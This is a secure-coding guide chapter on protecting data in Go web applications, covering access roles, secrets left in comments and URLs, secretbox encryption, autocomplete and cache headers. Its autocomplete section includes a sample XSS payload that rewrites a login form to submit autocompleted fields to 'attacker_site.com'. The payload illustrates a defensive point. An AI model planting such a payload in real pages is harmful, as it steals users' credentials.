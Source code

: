 Data Protection
===============

Nowadays, one of the most important things in security in general is data
protection. You don't want something like:

![All your data are belong to us](files/cB52MA.jpeg)

In a nutshell, data from your web application needs to be protected, so in this
section we will take a look at the different ways to secure it.

One of the first things you should take care is creating and implementing the
right privileges for each user and restrict them to only the functions they
really need.

For example, consider a simple online store with the following user roles:

* _Sales user_: Permission only to view catalog
* _Marketing user_: Allowed to check statistics
* _Developer_: Allowed to modify pages and web application options

Also, in the system configuration (aka webserver), you should define the right
permissions.

The main thing is to define the right role for each user - web or system.

Role separation and access controls are further discussed in
the [Access Control][1] section.

## Remove sensitive information

Temporary and cache files which contain sensitive information should be removed
as soon as they're not needed. If you still need some of them, move them to
protected areas or encrypt them.

### Comments

Sometimes developers leave comments like _To-do lists_ in the source-code, and
sometimes, in the worst case scenario, developers may leave credentials.

```go
// Secret API endpoint - /api/mytoken?callback=myToken
fmt.Println("Just a random code")
```

In the above example, the developer has a endpoint in a comment which, if not
well protected, could be used by a malicious user.

### URL

Passing sensitive information using the HTTP GET method leaves the web
application vulnerable because:

1. Data could be intercepted if not using HTTPS by MITM attacks.
2. Browser history stores the user's information. If the URL has
   session IDs, pins or tokens that don't expire (or have low entropy),
   they can be stolen.

```go
req, _ := http.NewRequest("GET", "http://mycompany.com/api/mytoken?api_key=000s3cr3t000", nil)
```

If you web application tries to get information from a third-party website
using your ```api_key```, it could be stolen if anyone is listening within your
network. This is due to the lack of HTTPS and the parameters being passed
through GET.

Also, if your web application has links to the example site:

```
http://mycompany.com/api/mytoken?api_key=000s3cr3t000
```

It will be stored in your browser history so, again, it can be stolen.

Solutions should always use HTTPS. Furthermore, try to pass the parameters using
the POST method and, if possible, use one time only session IDs or token.

### Information is power

You should always remove application and system documentation on the production
environment. Some documents could disclose versions, or even functions that could
be used to attack your web application (e.g. Readme, Changelog, etc.).

As a developer, you should allow the user to remove sensitive information that
is no longer used. Imagine that the user has expired credit cards on
his account and wants to remove them - your web application should allow it.

All of the information that is no longer needed must be deleted from the
application.

#### Encryption is the key

Every highly sensitive information should be encrypted in your web application.
Use the military-grade [encryption available in Go][2]; for more information,
see the [Cryptographic Practices][3] section.

If you need to implement your code elsewhere, just build and share the
binary - there's no bulletproof solution to prevent reverse engineering.

Getting different permissions for accessing the code and limiting the access
for your source-code is the best approach.

Do not store passwords, connection strings (see example for how to secure database
connection strings on [Database Security][4] section) or other sensitive
information in clear text or in any non-cryptographically secure manner on the
client side.
This includes embedding in insecure formats (e.g. Adobe flash or compiled code).

A small example of encryption in Go using and external package
`golang.org/x/crypto/nacl/secretbox`:

```go
// Load your secret key from a safe place and reuse it across multiple
// Seal calls. (Obviously don't use this example key for anything
// real.) If you want to convert a passphrase to a key, use a suitable
// package like bcrypt or scrypt.
secretKeyBytes, err := hex.DecodeString("6368616e676520746869732070617373776f726420746f206120736563726574")
if err != nil {
    panic(err)
}

var secretKey [32]byte
copy(secretKey[:], secretKeyBytes)

// You must use a different nonce for each message you encrypt with the
// same key. Since the nonce here is 192 bits long, a random value
// provides a sufficiently small probability of repeats.
var nonce [24]byte
if _, err := rand.Read(nonce[:]); err != nil {
    panic(err)
}

// This encrypts "hello world" and appends the result to the nonce.
encrypted := secretbox.Seal(nonce[:], []byte("hello world"), &nonce, &secretKey)

// When you decrypt, you must use the same nonce and key you used to
// encrypt the message. One way to achieve this is to store the nonce
// alongside the encrypted message. Above, we stored the nonce in the first
// 24 bytes of the encrypted text.
var decryptNonce [24]byte
copy(decryptNonce[:], encrypted[:24])
decrypted, ok := secretbox.Open([]byte{}, encrypted[24:], &decryptNonce, &secretKey)
if !ok {
    panic("decryption error")
}

fmt.Println(string(decrypted))
```

Output will be:

```
hello world
```

## Disable what you don't need

Another simple and efficient way to mitigate attack vectors is to guarantee that
any unnecessary applications or services are disabled in your systems.

### Autocomplete

According to [Mozilla documentation][1], you can disable autocompletion in the
entire form by using:

```html
<form method="post" action="/form" autocomplete="off">
```

Or a specific form element:

```html
<input type="text" id="cc" name="cc" autocomplete="off">
```

This is especially useful for disabling autocomplete on login forms. Imagine a
case where a XSS vector is present in the login page.
If the malicious user creates a payload like:

```javascript
window.setTimeout(function() {
  document.forms[0].action = 'http://attacker_site.com';
  document.forms[0].submit();
}
), 10000);
```

It will send the autocomplete form fields to the `attacker_site.com`.

### Cache

Cache control in pages that contain sensitive information should be disabled.

This can be achieved by setting the corresponding header flags, as shown in the
following snippet:

```go
w.Header().Set("Cache-Control", "no-cache, no-store")
w.Header().Set("Pragma", "no-cache")
```

The `no-cache` value tells the browser to revalidate with the server before
using any cached response. It does not tell the browser to _not cache_.

On the other hand, `no-store` value is really - _Hey stop caching!_ - and
must not store any part of the request or response.

The `Pragma` header is there to support HTTP/1.0 requests.

[1]: https://developer.mozilla.org/en-US/docs/Web/Security/Securing_your_site/Turning_off_form_autocompletion
[2]: https://godoc.org/golang.org/x/crypto
[3]: /cryptographic-practices/README.md
[4]: /database-security/README.md
